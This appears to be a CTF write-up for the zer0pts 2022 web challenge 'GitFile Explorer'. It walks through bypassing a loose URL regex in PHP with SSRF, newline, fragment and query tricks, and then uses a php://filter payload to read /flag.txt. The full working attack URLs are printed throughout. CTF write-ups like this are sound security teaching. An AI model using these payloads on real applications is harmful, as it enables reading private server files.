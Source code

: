 ```yaml
---
layout: post
title: zer0pts CTF 2022 Writeup
published: true
categories: [Web]
excerpt: I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it.
---
```


I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it.

---

## Web

---

# GitFile Explorer

#### Category: Web | 77 points

<details>
  <summary>Challenge Description</summary>
  
  Read /flag.txt on the server.     
	http://gitfile.ctf.zer0pts.com:8001/
</details>

The source code was given for this challenge, so no guessing was required.

First, I tried to understand the application by clicking on the Download button on the Challenge URL, which returns the following URL: [http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md](http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md)


Looking at the source code, we see that the URL is generated as follows:

```php
$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```


It is immediately obvious that the regex is very loose. Since the regex only checks for presence of `github` or `gitlab` or `bitbucket` in the URL, the full hostname is not actually needed and we just need to include it somewhere in our `service` parameter. 

An SSRF can be achieved by putting an `@` after the hostname to redirect to our chosen domain, such as [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php) would return the contents of `index.php` of the site.

From here I tried path traversal by replacing the `index.php` with `../../../flag.txt` only to be met with the following error:

```markdown
: file_get_contents(http://...@gitfile.ctf.zer0pts.com:8001/./././../../../flag.txt): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in

**/var/www/html/index.php**

on line **30**
```

I got the same error when trying [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt) as well, which should have sent the same request given the code:

```php
$url = craft_url($service, $owner, $repo, $branch, $file);
```

It was here a few of us got stuck for a while, and we started looking for other bypasses.

The following regex bypasses are viable:
- using the newline character `%0A`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt)
- using the URL-encoded fragment identifier `#`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt)
- using the query paramter `?=`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a)

We also tried non-HTTP protocols such as:
- File selector `file://`: [http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php) which returns `Remote host file access not supported`, meaning that the `file://` wouldn't work.
- PHP Filter `php://filter/convert.base64-encode/resource=`: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.), which returns `Read of 8192 bytes failed with errno=21 Is a directory in /var/www/html/index.php on line 30`, which meant that `resource` was somehow reading a directory instead of the file we specified. 

And thus to no avail.

It was at this point Ocean came in with the brilliant idea of separating the base resource directory as a `/` and specifying the file in the param instead: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt), which finally led us to the flag.

The content returned was in base64 due to our filter: `emVyMHB0c3tmb28vYmFyLy4uLy4uLy4uLy4uLy4uL2RpcmVjdG9yeS90cmF2ZXJzYWx9Cg==`

Which when decoded, it gives the flag!

<details>
  <summary>FLAG</summary>
  
   zer0pts{foo/bar/../../../../../directory/traversal}
</details>


